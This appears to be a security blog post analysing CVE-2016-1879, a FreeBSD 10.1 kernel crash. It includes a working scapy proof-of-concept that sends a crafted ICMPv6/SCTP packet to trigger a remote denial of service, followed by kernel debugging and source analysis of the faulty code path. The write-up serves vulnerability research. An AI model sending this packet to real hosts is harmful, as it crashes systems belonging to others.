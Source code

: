 ```yaml
---
layout:	   post
title:		 CVE-2016-1879 FreeBSD kernel crash
author:		 wooy0ung
tags:		   cve
category:  exploit
---
```



>[Analysis Environment]  
>system: FreeBSD 10.1 release amd64  
>attack machine: ubuntu 16.04.3 amd64  
>You can get more information in this website:   
>[FreeBSD Remote DoS Exploit](http://blog.ptsecurity.com/2016/01/severe-vulnerabilities-detected-in.html)  
<!-- more -->


reference to compile bsd kernel:
[]()

promise your bsd kernel can dump core after crashing
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x001.png)

open your bsd ssh permission  
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x002.png)  

change it into
```
$ vi /etc/ssh/sshd_config
PermitRootLogin yes
```

get mac & ipv6，-I argument means network card of your ubuntu
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x003.png)

poc.py
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
 
import argparse
from scapy.all import *
 
def get_args():
    parser = argparse.ArgumentParser(description='#' * 78, epilog='#' * 78)
    parser.add_argument("-m", "--dst_mac", type=str, help="FreeBSD mac address")
    parser.add_argument("-i", "--dst_ipv6", type=str, help="FreeBSD IPv6 address")
    parser.add_argument("-I", "--iface", type=str, help="Iface")
    options = parser.parse_args()
 
    if options.dst_mac is None or options.dst_ipv6 is None:
        parser.print_help()
        exit()
 
    return options
 
if __name__ == '__main__':
    options = get_args()
 
    sendp(Ether(dst=options.dst_mac) / IPv6(dst=options.dst_ipv6) / ICMPv6DestUnreach() / IPv6(nh=132,
                                                                                               src=options.dst_ipv6,
                                                                                               dst='fe80::230:56ff:fea6:648c'),
          iface=options.iface)
```

execute poc.py bsd will crash，and crash files generated in /var/crash
```
$ python poc.py -m 00:0c:29:b9:1f:0b -i fe80::20c:29ff:feb9:1f0b -I ens33
.
Sent 1 packets.
```

ICMPv6DestUnreach()：send a error icmp package
IPv6(nh=132,...)：nexthread=132
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x004.png)

cd to /usr/obj/usr/src/sys/MYKERNEL/，and launch kgdb to debug crash core
```
$ kgdb kernel.debug /var/crash/vmcore.1 
```
input "bt" to get stack backtrace
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x005.png)

![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x006.png)
open /usr/src/sys/kern/uipc_mbuf.c
```
/*
 * Copy data from an mbuf chain starting "off" bytes from the beginning,
 * continuing for "len" bytes, into the indicated buffer.
 */
void
m_copydata(const struct mbuf *m, int off, int len, caddr_t cp)
{
  u_int count;

  KASSERT(off >= 0, ("m_copydata, negative off %d", off));
  KASSERT(len >= 0, ("m_copydata, negative len %d", len));
  while (off > 0) {
    KASSERT(m != NULL, ("m_copydata, offset > size of mbuf chain"));//第一个m的assert
    if (off < m->m_len)
      break;
    off -= m->m_len;
    m = m->m_next;
  }
  while (len > 0) { //884行
    KASSERT(m != NULL, ("m_copydata, length > size of mbuf chain")); //885行
        //这里以下不重要
        //这里以下不重要
    count = min(m->m_len - off, len);
    bcopy(mtod(m, caddr_t) + off, cp, count);
    len -= count;
    cp += count;
    off = 0;
    m = m->m_next;
  }
}
```
kernel stop by "while(len > 0) { KASSERT(m != NULL...)..."，maybe m=m->m_next <-- 0

backtrace to last function
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x007.png)

open /usr/src/sys/netinet6/sctp6_usrreq.c
```
void sctp6_ctlinput(int cmd, struct sockaddr *pktdst, void *d)
{
  struct sctphdr sh;
  struct ip6ctlparam *ip6cp = NULL;
  uint32_t vrf_id;

  vrf_id = SCTP_DEFAULT_VRFID;

  if (pktdst->sa_family != AF_INET6 ||
      pktdst->sa_len != sizeof(struct sockaddr_in6))
    return;

  if ((unsigned)cmd >= PRC_NCMDS)
    return;
  if (PRC_IS_REDIRECT(cmd)) {
    d = NULL;
  } else if (inet6ctlerrmap[cmd] == 0) {
    return;
  }
  /* if the parameter is from icmp6, decode it. */
  if (d != NULL) {
    ip6cp = (struct ip6ctlparam *)d;
  } else {
    ip6cp = (struct ip6ctlparam *)NULL;
  }

  if (ip6cp) {
    /*
     * XXX: We assume that when IPV6 is non NULL, M and OFF are
     * valid.
     */
    /* check if we can safely examine src and dst ports */
    struct sctp_inpcb *inp = NULL;
    struct sctp_tcb *stcb = NULL;
    struct sctp_nets *net = NULL;
    struct sockaddr_in6 final;

    if (ip6cp->ip6c_m == NULL)
      return;

    bzero(&sh, sizeof(sh));
    bzero(&final, sizeof(final));
    inp = NULL;
    net = NULL;
    m_copydata(ip6cp->ip6c_m, ip6cp->ip6c_off, sizeof(sh),
        (caddr_t)&sh);
    
        ...
        后面不重要
```
type of "d" change by "ip6cp = (struct ip6ctlparam *)d"

get "ip6cp",and we can confirm "m->m_next=NULL"，and "len=88"
![](/assets/img/exploit/2018-05-04-cve-2016-1879/0x008.png)

because of triggering KASSERT，kernel would crash